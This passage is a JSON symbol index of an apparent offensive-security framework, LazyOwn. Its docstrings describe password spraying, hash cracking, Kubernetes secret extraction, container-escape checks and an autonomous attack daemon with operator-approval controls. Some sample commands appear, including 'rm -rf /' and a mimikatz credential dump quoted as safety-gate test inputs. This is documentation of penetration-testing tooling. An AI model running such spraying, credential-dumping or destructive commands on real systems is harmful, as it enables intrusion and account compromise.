technique.\n\nReturns:\nNone\n\nExample Usage:\ndo_generate_playbook(\"ExamplePlaybook persistence lateral_movement windows\")\nThis command will generate a playbook named \"ExamplePlaybook\" that includes tests and\ntechniques related to \"persistence\", \"lateral_movement\", and the \"windows\" platform.", "kind": "method", "line": 2013, "name": "do_generate_playbook", "signature": "def do_generate_playbook(self, line)"}, {"doc": "Generates a playbook from your custom technique database.\nUsage: my_playbook <name> [filter]\nExample: my_playbook KerberosAttack password spray", "kind": "method", "line": 2192, "name": "do_my_playbook", "signature": "def do_my_playbook(self, line)"}, {"doc": "Installs and starts the Caldera server.\n\nThis function:\n    - Clones the Caldera repository recursively.\n    - Installs the required dependencies.\n    - Optionally installs GoLang (1.19+).\n    - Starts the Caldera server with the provided parameters.\n\nBehavior:\n    - Requires `git`, `python3`, and `pip3` to be installed.\n    - Uses parameters from `self.params` for version/release.\n\nUsage:\n    caldera", "kind": "method", "line": 2249, "name": "do_caldera", "signature": "def do_caldera(self, line)"}, {"doc": "Import CALDERA abilities into LazyOwn playbooks.\n\nUsage:\n    caldera_import <ability_id> [playbook_name]\n    caldera_import all\n\nExamples:\n    caldera_import 4e97e699-93d7-4046-b5b3-94968bf4ac1e\n    caldera_import all", "kind": "method", "line": 2298, "name": "do_caldera_import", "signature": "def do_caldera_import(self, line)"}, {"doc": "Export a LazyOwn playbook to CALDERA ability YAML.\n\nUsage:\n    caldera_export <playbook_name> [ability_id_prefix]\n\nExamples:\n    caldera_export apt29\n    caldera_export fin7 lazyown-", "kind": "method", "line": 2390, "name": "do_caldera_export", "signature": "def do_caldera_export(self, line)"}, {"kind": "function", "line": 543, "name": "_api", "signature": "def _api(method, endpoint, payload)"}, {"kind": "function", "line": 2322, "name": "_load_ability", "signature": "def _load_ability(ability_file)"}, {"kind": "function", "line": 2329, "name": "_ability_to_step", "signature": "def _ability_to_step(ability)"}]}, {"doc": "Container and Kubernetes attack command set.  Commands for Docker enumeration, Kubernetes cluster reconnaissance, pod escape detection, and container privilege escalation.", "id": "cli/commands/containers.py", "kind": "module", "label": "containers.py", "language": "py", "sha256": "ef58bc006525f6aa", "symbol_count": 7, "symbols": [{"doc": "Container and Kubernetes attack commands.", "kind": "class", "line": 30, "name": "ContainerCommandSet", "signature": "class ContainerCommandSet(LazyOwnCommandSet)"}, {"doc": "Enumerate Docker host: containers, images, privileges, mounts.\n\nChecks for:\n- Privileged containers\n- Docker socket mounts (escape vector)\n- Sensitive host path mounts\n- Dangerous Linux capabilities\n\nUsage: docker_enum", "kind": "method", "line": 37, "name": "do_docker_enum", "signature": "def do_docker_enum(self, _line)"}, {"doc": "Enumerate Kubernetes cluster: pods, secrets, SAs, RBAC.\n\nChecks for:\n- All namespaces and pods\n- Secrets (kubeconfig, tokens, credentials)\n- Service accounts with cluster-admin\n- Pod escape vectors (hostPID, privileged, mounts)\n\nUsage: k8s_enum", "kind": "method", "line": 101, "name": "do_k8s_enum", "signature": "def do_k8s_enum(self, _line)"}, {"doc": "Check current container for known escape vectors.\n\nDetects:\n- Docker socket mounted\n- Privileged mode\n- Host PID namespace shared\n- Dangerous capabilities (SYS_ADMIN, SYS_PTRACE)\n- Service account tokens (K8s)\n- Sensitive host mounts\n\nUsage: container_escape", "kind": "method", "line": 169, "name": "do_container_escape", "signature": "def do_container_escape(self, _line)"}, {"doc": "List Kubernetes pods with security-relevant details.\n\nShows pod status, hostNetwork, hostPID, privileged status,\nand namespace for each pod.\n\nUsage:\n    k8s_pods\n    k8s_pods <namespace>", "kind": "method", "line": 239, "name": "do_k8s_pods", "signature": "def do_k8s_pods(self, line)"}, {"doc": "List and decode Kubernetes secrets.\n\nExtracts and decodes all secrets from the cluster, writing\ncredentials and tokens to sessions/k8s_secrets_*.txt files.\n\nUsage:\n    k8s_secrets\n    k8s_secrets <namespace>", "kind": "method", "line": 283, "name": "do_k8s_secrets", "signature": "def do_k8s_secrets(self, line)"}, {"doc": "Auto-detect container runtime and escape primitives.\n\nDetects the container runtime (Docker, containerd, CRI-O, Podman,\nLXC, Kubernetes, systemd-nspawn), then enumerates dangerous mounts,\ncapabilities, and applicable escape techniques.\n\nUsage: container_detect", "kind": "method", "line": 334, "name": "do_container_detect", "signature": "def do_container_detect(self, _line)"}]}, {"doc": "Credential Access command set (pending).  Phase 07 — commands for credential access: password cracking, hash manipulation, dictionary generation, and credential harvesting.  Pending status: inherits from :class:`PendingCommandSet`. Promote to :class:`LazyOwnCommandSet` once originals are deleted from ``lazyown.py``.", "id": "cli/commands/cred.py", "kind": "module", "label": "cred.py", "language": "py", "sha256": "940a3774eaa05241", "symbol_count": 10, "symbols": [{"doc": "Credential Access phase commands (pending).", "kind": "class", "line": 23, "name": "CredentialAccessCommandSet", "signature": "class CredentialAccessCommandSet(LazyOwnCommandSet)"}, {"doc": "Run hashcat password cracking.", "kind": "method", "line": 30, "name": "do_hashcat", "signature": "def do_hashcat(self, line)"}, {"doc": "Convert a hash to John the Ripper format.", "kind": "method", "line": 39, "name": "do_john2hash", "signature": "def do_john2hash(self, line)"}, {"doc": "Run Hydra for online password attacks.", "kind": "method", "line": 47, "name": "do_hydra", "signature": "def do_hydra(self, line)"}, {"doc": "Run Medusa for online password attacks.", "kind": "method", "line": 59, "name": "do_medusa", "signature": "def do_medusa(self, line)"}, {"doc": "Generate wordlists with crunch.", "kind": "method", "line": 67, "name": "do_crunch", "signature": "def do_crunch(self, line)"}, {"doc": "Generate a wordlist from a website with cewl.", "kind": "method", "line": 75, "name": "do_cewl", "signature": "def do_cewl(self, line)"}, {"doc": "Generate an SSH key pair.", "kind": "method", "line": 87, "name": "do_sshkey", "signature": "def do_sshkey(self, line)"}, {"doc": "Extract credentials from a file or command output.", "kind": "method", "line": 93, "name": "do_creds_py", "signature": "def do_creds_py(self, line)"}, {"doc": "Run SprayKatz for credential spraying.", "kind": "method", "line": 98, "name": "do_spraykatz", "signature": "def do_spraykatz(self, line)"}]}, {"doc": "cred commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.", "id": "cli/commands/cred_migrated.py", "kind": "module", "label": "cred_migrated.py", "language": "py", "sha256": "5a67045e80c31e77", "symbol_count": 33, "symbols": [{"kind": "class", "line": 30, "name": "CredMigratedCommandSet", "signature": "class CredMigratedCommandSet(LazyOwnCommandSet)"}, {"doc": "Back up an existing credentials file before it is overwritten.\n\nArgs:\n    credentials_file_path: Path to the active credentials file.\n\nReturns:\n    The backup path when a rotation happened, otherwise ``None``.", "kind": "method", "line": 34, "name": "_rotate_existing_credentials", "signature": "def _rotate_existing_credentials(self, credentials_file_path)"}, {"doc": "Creates a `hash.txt` file in the `sessions` directory with the specified hash value and analyzes it using `Name-the-hash`.\n\nThis function performs the following actions:\n1. Validates the input line to ensure it is not empty.\n2. Backs up the existing `hash.txt` file if it exists, renaming it to `hash_{timestamp}.txt` based on the current timestamp.\n3. Writes the provided hash value to `sessions/hash.txt`.\n4. Analyzes the hash value using `Name-the-hash`.\n\nUsage:\n    createhash <hash>\n\n:param line: The hash value to be written to `hash.txt` and analyzed.\n:type line: str\n:returns: None\n\nManual execution:\n1. Creates or overwrites the file `sessions/hash.txt` with the specified hash value.\n2. Analyzes the hash value using the `nth` command.\n\nDependencies:\n- `sessions/hash.txt` will be created in the `sessions` directory.\n- `Name-the-hash` must be installed and accessible via the command `nth`.\n\nExample:\n    createhash 5f4dcc3b5aa765d61d8327deb882cf99\n\nNote:\n    - Ensure the hash value is correct before running the analysis.\n    - The hash value should be provided as a single argument without extra characters or spaces.", "kind": "method", "line": 62, "name": "do_createhash", "signature": "def do_createhash(self, line)"}, {"doc": "Creates a `credentials.txt` file in the `sessions` directory with the specified username and password.\n\nThis function performs the following actions:\n1. Validates the input line to ensure it contains a colon (`:`), indicating the presence of both a username and password.\n2. Backs up the existing `credentials.txt` file if it exists, renaming it to `credentials_{username}.txt` based on the existing username.\n3. Writes the valid input to `sessions/credentials.txt`.\n\nUsage:\n    createcredentials user:password\n\n:param line: The input line containing the username and password in the format `user:password`.\n:type line: str\n:returns: None\n\nManual execution:\n1. Creates or overwrites the file `sessions/credentials.txt` with the specified username and password.\n\nDependencies:\n- `sessions/credentials.txt` will be created in the `sessions` directory.\n\nExample:\n    createcredentials administrator:passwordadministrator123&!\n\nNote:\n    - Ensure the input format is correct: `user:password`.\n    - The credentials should be properly formatted with a colon separating the username and password.", "kind": "method", "line": 116, "name": "do_createcredentials", "signature": "def do_createcredentials(self, line)"}, {"doc": "Display the credentials stored in the `credentials.txt` file and copy the password to the clipboard.\n\nThis function reads the stored credentials from a file named `credentials.txt` located in the `sessions` directory.\nThe file should be in the format `username:password`. If the file does not exist, an error message will be printed\ninstructing the user to create the credentials file first. The function extracts the username and password from the file,\nprints them, and copies the password to the clipboard using `xclip`.\n\n:param line: A string parameter that is not used in this function. It is included for compatibility with command-line\n            interface functions.\n\n:returns: None\n\nManual execution:\nTo manually perform the equivalent actions, follow these steps:\n\n    1. Ensure the file `sessions/credentials.txt` exists and contains credentials in the format `username:password`.\n    2. Read the file and extract the username and password.\n    3. Print the username and password to the console.\n    4. Use the `xclip` tool to copy the password to the clipboard. Example command:\n\n        echo '<password>' | xclip -sel clip\n\nExample:\nIf `sessions/credentials.txt` contains `admin:password123`, the function will print:\n\n    User : admin\n    Pass : password123\n\nThe password `password123` will be copied to the clipboard.\n\nNote:\nEnsure `xclip` is installed on your system for copying to the clipboard. The function assumes that `xclip` is available\nand correctly configured.", "kind": "method", "line": 164, "name": "do_cred", "signature": "def do_cred(self, line)"}, {"doc": "Helps to find hash types in Hashcat by searching through its help output.\n\n1. Checks if an argument is provided:\n- If no argument is given, displays an error message indicating the need to pass a hash type.\n\n2. Executes a command to search for hash types:\n- Runs `hashcat -h` to display Hashcat help information and pipes it to `grep` to search for the provided argument.\n- Prints a message with the command being executed and provides further instructions for running Hashcat.\n\n3. Prints a message suggesting the next step:\n- Provides a suggestion for running Hashcat with the found hash types.\n\n:param line: The hash type or keyword to search for in the Hashcat help output.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- Run `hashcat -h` to display the help information.\n- Use `grep` to search for the specific hash type or keyword within the help output.\n- Run Hashcat with the appropriate parameters based on the search results.\n\nNote: Ensure that `hashcat` is installed and accessible in the system's PATH.", "kind": "method", "line": 217, "name": "do_searchhash", "signature": "def do_searchhash(self, line)"}, {"doc": "Handles the creation of temporary files for users and passwords based on a small dictionary.\n\nThis function prompts the user to decide whether to use a small dictionary for generating\nuser and password lists. If the user agrees, it loads the credentials from a JSON file and\nwrites them into temporary files. If the user declines, the process is aborted.\n\nParameters:\nlist (str): Not used in this function, but kept for compatibility with cmd command input.\n\nReturns:\nNone", "kind": "method", "line": 253, "name": "do_smalldic", "signature": "def do_smalldic(self, list)"}, {"doc": "Execute the dacledit.py command for a specific user or all users listed in the users.txt file.\n\nThis function interacts with the DACL editor to modify access control lists in an Active Directory environment.\nIt allows the user to select a specific user from the list or execute the command for all users.\nInstall impacket suit to get this script in the examples\nArgs:\n    line (str): The organizational unit (OU) in the format 'OU=EXAMPLE,DC=DOMAIN,DC=EXT'. If not provided, the user is prompted to enter it.\n\nReturns:\n    None\n\nWorkflow:\n    1. Extract parameters and assign up paths.\n    2. Check the reachability of the remote host.\n    3. Prompt the user for an OU if not provided.\n    4. Check if the users.txt file exists and read the list of users.\n    5. Display the list of users and prompt the user to select a specific user.\n    6. Execute the dacledit.py command for the selected user or all users.\n\nRaises:\n    FileNotFoundError: If the users.txt file does not exist.\n\nExample:\n    To execute the command for a specific user:\n    >>> do_dacledit(\"MARKETING DIGITAL\")\n\n    To execute the command for all users:\n    >>> do_dacledit(\"\")", "kind": "method", "line": 291, "name": "do_dacledit", "signature": "def do_dacledit(self, line)"}, {"doc": "Generates a wordlist based on a target name and a list of characters, with various combinations.\n\nThis function prompts the user for a target name and a wordlist name, then generates various combinations\nof the target name with a given list of characters. The combinations include single, double, triple, fourth,\nfifth, sixth, and intercalated character variations. The generated passwords are saved to the specified\nwordlist file.\n\n:param line: Not used in this function.\n\n:returns: None\n\nManual execution:\nTo manually generate a wordlist, run the script and follow the prompts to enter the target name,\nwordlist name, and additional characters if desired.\n\nFor example:\n    Enter target name(Ex. john) ::: john\n    Enter wordlist name ::: my_wordlist.txt\n    Char List ::: 1 2 3 4 5 6 7 8 9 0 ! @ # $\n    Do you want to add more characters in char List[y/n] ::: y\n    Enter characters by commas(Ex. : ^,&,*,) ::: ^,&,*", "kind": "method", "line": 361, "name": "do_generatedic", "signature": "def do_generatedic(self, line)"}, {"doc": "Generate email permutations based on a full name and self.params['domain'], then save them to a file.\n\nThis function prompts the user for a full name and self.params['domain'], generates various email\npermutations based on that information, and saves the results in a text file located\nin the `sessions` directory.\n\nParameters:\nline (str): used as Fullname.\n\nInternal Variables:\nfull_name (str): The full name entered by the user, defaulting to 'John Doe'.\nself.params['domain'] (str): The self.params['domain'] entered by the user, defaulting to 'example.com'.\n\nReturns:\nNone\n\nExample Usage:\n- To generate emails using default values: `createmail`\n- To specify a full name and self.params['domain']: `createmail`\n\nNote:\n- The generated emails will be stored in a file named `emails_{full_name}_{self.params['domain']}.txt`\n  within the `sessions` directory.", "kind": "method", "line": 626, "name": "do_createmail", "signature": "def do_createmail(self, line)"}, {"doc": "Perform password spraying using crackmapexec with the provided parameters.\n\n:param line: This parameter is not used in the function but can be reserved for future use.\n\n:returns: None\n\nManual execution:\nTo manually run `crackmapexec` for password spraying, use the following command:\n\n    crackmapexec smb <IP Address> -u <users_file> -p <password> --continue-on-success\n\nThis function prompts the user for IP address, user file, and password.", "kind": "method", "line": 674, "name": "do_passwordspray", "signature": "def do_passwordspray(self, line)"}, {"doc": "Opens or creates the users.txt file in the sessions directory for editing using nano.\n\n:param line: Not used directly but reserved for future use.\n\n:returns: None", "kind": "method", "line": 706, "name": "do_addusers", "signature": "def do_addusers(self, line)"}, {"doc": "Decrypts TightVNC passwords using Metasploit.\n\nThis function demonstrates how TightVNC passwords can be decrypted using the known hardcoded DES key\nfrom the program and Metasploit's `Rex::Proto::RFB::Cipher.decrypt` function.\n\nSteps:\n- Receives the password in hexadecimal format from the command line input.\n- Creates a Metasploit resource script that includes commands to decrypt the TightVNC password.\n- Executes Metasploit with the created resource script and then deletes the temporary file.\n- Prints the decrypted password.\n\n:param line: The TightVNC password in hexadecimal format.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually decrypt a TightVNC password, you would need to:\n- Use Metasploit's `Rex::Proto::RFB::Cipher.decrypt` function with the hardcoded DES key and the hexadecimal password.\n\nExample:\npasstightvnc D7A514D8C556AADE", "kind": "method", "line": 728, "name": "do_passtightvnc", "signature": "def do_passtightvnc(self, line)"}, {"doc": "Transforms the input string based on user-defined casing style.\n\nThis command asks the user for a casing style (e.g., lower, upper, camel, pascal)\nand transforms the input string accordingly.\n\nParameters:\n    line (str): Input string to be transformed.", "kind": "method", "line": 775, "name": "do_transform", "signature": "def do_transform(self, line)"}, {"doc": "Generate usernames using the username-anarchy tool based on user input.\n\nThis function prompts the user to either provide names directly or select\noptions such as auto-generation based on country datasets, input files, and\nspecific username formats. It then constructs the command for `username-anarchy`\nand executes it.\n\n:param line: is optional you can pass the name and lastname as an argument example: username_anarchy firstname lastname\n:returns: None", "kind": "method", "line": 803, "name": "do_username_anarchy", "signature": "def do_username_anarchy(self, line)"}, {"doc": "List all .kdbx files in the 'sessions' directory, let the user select one, and run the\ncommand `sudo keepass2john {user_file} > sessions/hash.txt`.\nIf 'sessions/hash.txt' already exists, it will be backed up with a timestamp to avoid overwriting.\n\nParameters:\nline (str): An optional string parameter. This can be used for any additional input,\n            though it's not needed in this specific command.\n\nReturns:\nNone", "kind": "method", "line": 904, "name": "do_john2keepas", "signature": "def do_john2keepas(self, line)"}, {"doc": "Open a .kdbx file and print the titles and contents of all entries. The password can be provided through\nthe 'line' parameter, via user input, or from a 'credentials.txt' file in the 'sessions' directory.\n\nIf the file 'credentials.txt' exists in the 'sessions' directory, the first password from it\nwill be used automatically.\n\nParameters:\nline (str): An optional string parameter to pass the password. If not provided, the user will\n            be prompted to input the password.\n\nReturns:\nNone", "kind": "method", "line": 953, "name": "do_keepass", "signature": "def do_keepass(self, line)"}, {"doc": "Crack a Cisco Type 7 password hash and display the plaintext.\n\nThis command takes an encrypted Cisco Type 7 password hash as input,\nprocesses it to recover the original plaintext password, and prints the\nresult to the console.\n\nArgs:\n    line (str): The encrypted password hash in Cisco Type 7 format.\n\nReturns:\n    None: The function prints the plaintext password directly to the console.", "kind": "method", "line": 1017, "name": "do_crack_cisco_7_password", "signature": "def do_crack_cisco_7_password(self, line)"}, {"doc": "Command cubespraying: Automates the installation and usage of CubeSpraying for performing credential spraying attacks.\n\nThis function performs the following tasks:\n1. Clones and installs CubeSpraying if not already installed.\n2. Prompts the user for the target URL, username file, password file, and optional parameters like verbosity and timeout.\n3. Executes CubeSpraying for credential spraying attacks against the target URL.\n\nArgs:\n    line (str): Optional argument for specifying the target URL, username file, password file, and additional CubeSpraying options.\n\nReturns:\n    None\n\nExample:\n    cubespraying --url http://example.com --usernames users.txt --passwords passwords.txt --verbose --timeout 5", "kind": "method", "line": 1039, "name": "do_cubespraying", "signature": "def do_cubespraying(self, line)"}, {"doc": "List all .zip files in the 'sessions' directory, let the user select one, and run the command\n`zip2john {selected_file} > sessions/hash.txt`.\nThen, run John the Ripper to crack the hash using the RockYou wordlist with multiple forks.\n\nParameters:\nline (str): An optional string parameter. This can be used for any additional input, though\n            it's not needed in this specific command.\n\nReturns:\nNone", "kind": "method", "line": 1101, "name": "do_john2zip", "signature": "def do_john2zip(self, line)"}, {"doc": "Command createusers_and_hashs: Extracts usernames and hashes from a dump file.\n\nThis function opens a nano editor for the user to input the contents of a\nfile in the format:\n\n    username:UID:LM_HASH:NT_HASH:::\n\nOnce the data is entered and saved, the function generates:\n1. A file named `usernames_{self.params['rhost']}.txt` containing all usernames.\n2. Individual files named `hash_{username}.txt` for each user, containing\nthe user's LM and NT hash in the format `LM_HASH:NT_HASH`.\n\nArgs:\n    line (str): Unused parameter, kept for consistency.\n\nReturns:\n    None", "kind": "method", "line": 1162, "name": "do_createusers_and_hashs", "signature": "def do_createusers_and_hashs(self, line)"}, {"doc": "Generate a list of possible passwords by filling each asterisk in the input with user-specified characters.\n\n:param line: A string containing asterisks (e.g., WebAO***7) for generating variations.\n\n:returns: None\n\nProcess:\nPrompts the user to enter characters to replace each asterisk, creates all possible combinations,\nand saves them to 'sessions/passwords_refilled.txt'. If this file exists, the previous version is\nrenamed with a timestamp suffix.", "kind": "method", "line": 1205, "name": "do_refill_password", "signature": "def do_refill_password(self, line)"}, {"doc": "Reduces a wordlist based on the specified password length.\n\nThis function filters the provided wordlist to only include passwords\nthat match the specified length. If no length is provided, it defaults\nto 4. The function constructs a grep command to achieve this and executes\nit.\n\nUsage:\n    do_rocky(line: str)\n\n:param line: The length of the passwords to filter in the wordlist.\n            This parameter should be a string representing a positive integer.\n            If not provided, the function prompts the user for input.\n:type line: str\n:raises ValueError: If the provided length is not a valid positive integer.\n\nExample:\n    do_rocky('8')\n    # Executes: grep '^.\\{8\\}$' /usr/share/wordlists/rockyou.txt > sessions/lazypass_mini_rocky.txt", "kind": "method", "line": 1241, "name": "do_rocky", "signature": "def do_rocky(self, line)"}, {"doc": "Performs a password spray attack on Azure Active Directory Seamless Single Sign-On (SSO) using a specified list of users.\n\nThis function automates the process of spraying a given password across multiple user accounts in a target self.params['domain']. It utilizes\na user list in the form of a text file, targeting Azure AD Seamless SSO endpoints. The results are processed and saved to\na specified output file, providing insights into which accounts were successful or failed during the attack.\n\nRequirements:\n    - A valid self.params['domain'] and URL for the target Azure AD instance. (assing url https://url.com)\n    - A user dictionary file containing usernames (without the self.params['domain']) to be sprayed.\n\nParameters:\n    line (str): Command-line input passed to the function (not currently used in the function).\n\nBehavior:\n    - Loads the self.params['domain'] and URL from the configuration stored in `self.params`.\n    - Reads the user list from a file specified in `get_users_dic`.\n    - Sprays the specified password to all users and processes the results.\n    - Saves the successful and failed attempts to the output file.\n\nExample:\n    - Perform a password spray attack with the password \"admin\" and save the results:\n        >>> adsso_spray\n    - Customize the password or user list by modifying `self.params` before invoking the function.", "kind": "method", "line": 1277, "name": "do_adsso_spray", "signature": "def do_adsso_spray(self, line)"}, {"doc": "Generates single character combinations with the target name.\n\n:param name: Target name to use in the combinations.\n:param characters: List of characters to combine with the target name.\n:param file: File object to write the combinations to.\n:param total: Running total of passwords generated.\n:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.\n\n:returns: Updated total of passwords generated.", "kind": "function", "line": 386, "name": "single_combo", "signature": "def single_combo(name, characters, file, total, flag)"}, {"doc": "Generates double character combinations with the target name.\n\n:param name: Target name to use in the combinations.\n:param characters: List of characters to combine with the target name.\n:param file: File object to write the combinations to.\n:param total: Running total of passwords generated.\n:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.\n\n:returns: Updated total of passwords generated.", "kind": "function", "line": 409, "name": "double_combo", "signature": "def double_combo(name, characters, file, total, flag)"}, {"doc": "Generates triple character combinations with the target name.\n\n:param name: Target name to use in the combinations.\n:param characters: List of characters to combine with the target name.\n:param file: File object to write the combinations to.\n:param total: Running total of passwords generated.\n:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.\n\n:returns: Updated total of passwords generated.", "kind": "function", "line": 433, "name": "triple_combo", "signature": "def triple_combo(name, characters, file, total, flag)"}, {"doc": "Generates fourth character combinations with the target name.\n\n:param name: Target name to use in the combinations.\n:param characters: List of characters to combine with the target name.\n:param file: File object to write the combinations to.\n:param total: Running total of passwords generated.\n:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.\n\n:returns: Updated total of passwords generated.", "kind": "function", "line": 458, "name": "fourth_combo", "signature": "def fourth_combo(name, characters, file, total, flag)"}, {"doc": "Generates fifth character combinations with the target name.\n\n:param name: Target name to use in the combinations.\n:param characters: List of characters to combine with the target name.\n:param file: File object to write the combinations to.\n:param total: Running total of passwords generated.\n:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.\n\n:returns: Updated total of passwords generated.", "kind": "function", "line": 484, "name": "fifth_combo", "signature": "def fifth_combo(name, characters, file, total, flag)"}, {"doc": "Generates sixth character combinations with the target name, adding uppercase characters.\n\n:param name: Target name to use in the combinations.\n:param characters: List of characters to combine with the target name.\n:param file: File object to write the combinations to.\n:param total: Running total of passwords generated.\n:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.\n\n:returns: Updated total of passwords generated.", "kind": "function", "line": 511, "name": "sixth_combo", "signature": "def sixth_combo(name, characters, file, total, flag)"}, {"doc": "Generates combinations of the target name and character list, intercalating uppercase and lowercase characters.\n\nThis function generates combinations where each character in the string alternates between uppercase and\nlowercase. It also allows for the addition of the target name at the beginning or the end of the string.\n\n:param name: Target name to use in the combinations.\n:param characters: List of characters to intercalate with the target name.\n:param file: File object to write the combinations to.\n:param total: Running total of passwords generated.\n:param flag: If True, generate combinations with the target name at both the beginning and the end of the string.\n\n:returns: Updated total of passwords generated.", "kind": "function", "line": 536, "name": "intercalate_combo", "signature": "def intercalate_combo(name, characters, file, total, flag)"}, {"doc": "Expands a regular expression into a list of characters.\n\n:param regex: Regular expression string to expand.\n:returns: List of characters matching the regular expression.", "kind": "function", "line": 568, "name": "expand_regex", "signature": "def expand_regex(regex)"}, {"doc": "Helper function to alternate the case of characters in a string.", "kind": "function", "line": 552, "name": "alternate_case", "signature": "def alternate_case(s)"}]}, {"doc": "Crystal Ball CLI command set — privilege escalation vector prediction.  Parses linpeas/winpeas output and suggests ranked privesc vectors with exact commands, CVE references, and MITRE ATT&CK mapping.", "id": "cli/commands/crystal_ball.py", "kind": "module", "label": "crystal_ball.py", "language": "py", "sha256": "2cf280eba745c085", "symbol_count": 5, "symbols": [{"doc": "Crystal Ball — privesc vector prediction and ranking.", "kind": "class", "line": 20, "name": "CrystalBallCommandSet", "signature": "class CrystalBallCommandSet(LazyOwnCommandSet)"}, {"doc": "Find linpeas or winpeas output in sessions/.\n\nReturns:\n    Absolute path to the most recent enumeration file, or None.", "kind": "function", "line": 119, "name": "_auto_detect_enum_file", "signature": "def _auto_detect_enum_file()"}, {"doc": "Sanitise a string for use as a filename component.", "kind": "function", "line": 151, "name": "_safe_filename", "signature": "def _safe_filename(name)"}, {"doc": "Analyze linpeas/winpeas output and rank privesc vectors with exact commands.\n\nUsage:\n    crystal_ball <file>               Analyse enumeration output file\n    crystal_ball --text \"<output>\"     Analyse raw text from clipboard\n    crystal_ball --auto                Auto-detect linpeas/winpeas in sessions/\n\nMatches kernel CVEs, SUID binaries (GTFOBins), capabilities, sudo rules,\ngroup memberships (docker/lxd), and cron jobs. When an LLM backend is\nconfigured, additional context-aware vectors are suggested.\n\nExamples:\n    crystal_ball sessions/linpeas_10.0.2.15.txt\n    crystal_ball --auto", "kind": "method", "line": 27, "name": "do_crystal_ball", "signature": "def do_crystal_ball(self, line)"}, {"doc": "Quick alias for crystal_ball --auto.\n\nUsage:\n    privesc_suggest", "kind": "method", "line": 110, "name": "do_privesc_suggest", "signature": "def do_privesc_suggest(self, line)"}]}, {"doc": "Autonomous daemon control extracted from the miscellaneous cluster.  Pending status: originals deleted from ``cli/commands/misc_migrated.py``; this set is registered by ``cli.registry``.", "id": "cli/commands/daemon_ctl.py", "kind": "module", "label": "daemon_ctl.py", "language": "py", "sha256": "97efba1e622692bf", "symbol_count": 8, "symbols": [{"doc": "Autonomous daemon control commands.", "kind": "class", "line": 17, "name": "DaemonControlCommandSet", "signature": "class DaemonControlCommandSet(LazyOwnCommandSet)"}, {"doc": "Switch the autonomous daemon between auto, approval and paused modes.\n\nUsage:\n    daemon_mode auto       Run without operator gating (default).\n    daemon_mode approval   Require operator approval per command.\n    daemon_mode paused     Block the loop before the next step.\n\nThe selected mode is persisted to\n``sessions/daemon_control.json`` and read by the daemon before\nevery step. No daemon restart is required.\n\nArgs:\n    line: Whitespace-stripped mode name.\n\nReturns:\n    None.", "kind": "method", "line": 24, "name": "do_daemon_mode", "signature": "def do_daemon_mode(self, line)"}, {"doc": "Pause the autonomous daemon before its next step.\n\nEquivalent to ``daemon_mode paused``. The daemon polls the\ncontrol file between steps and resumes once the mode flips back\nto auto or approval.\n\nArgs:\n    line: Ignored.", "kind": "method", "line": 63, "name": "do_daemon_pause", "signature": "def do_daemon_pause(self, line)"}, {"doc": "Resume the autonomous daemon (switch mode to auto).\n\nArgs:\n    line: Ignored.", "kind": "method", "line": 82, "name": "do_daemon_resume", "signature": "def do_daemon_resume(self, line)"}, {"doc": "Add or clear vetoed command first-tokens for the autonomous daemon.\n\nUsage:\n    daemon_veto add <command>       Block <command> on future steps.\n    daemon_veto remove <command>    Remove a previously-blocked command.\n    daemon_veto clear               Drop every veto entry.\n    daemon_veto                     List the current vetoes.\n\nArgs:\n    line: Sub-command plus optional command token.", "kind": "method", "line": 97, "name": "do_daemon_veto", "signature": "def do_daemon_veto(self, line)"}, {"doc": "Restrict the autonomous daemon to a set of focus targets.\n\nUsage:\n    daemon_focus <ip_or_host> [<ip_or_host> ...]\n    daemon_focus clear         Drop the focus list (run anywhere).\n    daemon_focus               Print the current focus targets.\n\nArgs:\n    line: Whitespace-separated list of targets or sub-command.", "kind": "method", "line": 141, "name": "do_daemon_focus", "signature": "def do_daemon_focus(self, line)"}, {"doc": "Approve or veto the daemon's currently-pending action.\n\nUsage:\n    daemon_approve                   Approve the active pending action.\n    daemon_approve veto              Veto the active pending action.\n    daemon_approve show              Print the pending action (no decision).\n\nThe active action lives in ``sessions/daemon_control.json``\nunder ``pending`` and is created by the daemon when running in\napproval mode.\n\nArgs:\n    line: Optional sub-command.", "kind": "method", "line": 175, "name": "do_daemon_approve", "signature": "def do_daemon_approve(self, line)"}, {"doc": "Dry-run the safety gate against one command line.\n\nUsage:\n    gatecheck lazynmap 127.0.0.1\n    gatecheck \"rm -rf /\"\n    gatecheck mimikatz sekurlsa::logonpasswords\n\nRuns the exact pre-execution chain the autonomous loops use —\npayload constraints (deny wins), the global scope deny list,\nthen the intercept guard rules — and prints the verdict plus\nwhat the loop would do with it. Nothing is executed.\n\nArgs:\n    line: Command line to evaluate.\n\nReturns:\n    None.", "kind": "method", "line": 224, "name": "do_gatecheck", "signature": "def do_gatecheck(self, line)"}]}, {"doc": "Database commands — workspace isolation, host/service/vuln management, nmap import, export, and status reporting.  Mirrors the Metasploit ``db_*`` workflow. The backing store is :class:`modules.db.LazyOwnDB` (SQLite in ``sessions/db/lazyown.db``).", "id": "cli/commands/database.py", "kind": "module", "label": "database.py", "language": "py", "sha256": "d6ab1947c5ab4432", "symbol_count": 16, "symbols": [{"doc": "Database commands for campaign state management.", "kind": "class", "line": 26, "name": "DatabaseCommandSet", "signature": "class DatabaseCommandSet(LazyOwnCommandSet)"}, {"doc": "Split text like shlex.split but handle empty strings gracefully.", "kind": "function", "line": 560, "name": "shlex_split", "signature": "def shlex_split(text)"}, {"kind": "method", "line": 32, "name": "_get_db", "signature": "def _get_db(self)"}, {"kind": "method", "line": 40, "name": "_active_workspace", "signature": "def _active_workspace(self)"}, {"doc": "Initialize the database (creates schema if not exists).\n\nUsage: db_init [path]\nThe database is created at sessions/db/lazyown.db by default.", "kind": "method", "line": 57, "name": "do_db_init", "signature": "def do_db_init(self, line)"}, {"doc": "Manage workspaces (list, create, switch, delete).\n\nUsage:\n    db_workspace             — list workspaces\n    db_workspace <name>      — create/switch to workspace\n    db_workspace -d <name>   — delete workspace\n    db_workspace -r <name>   — rename workspace (not yet supported)", "kind": "method", "line": 75, "name": "do_db_workspace", "signature": "def do_db_workspace(self, line)"}, {"doc": "List or add hosts in the active workspace.\n\nUsage:\n    db_hosts                          — list 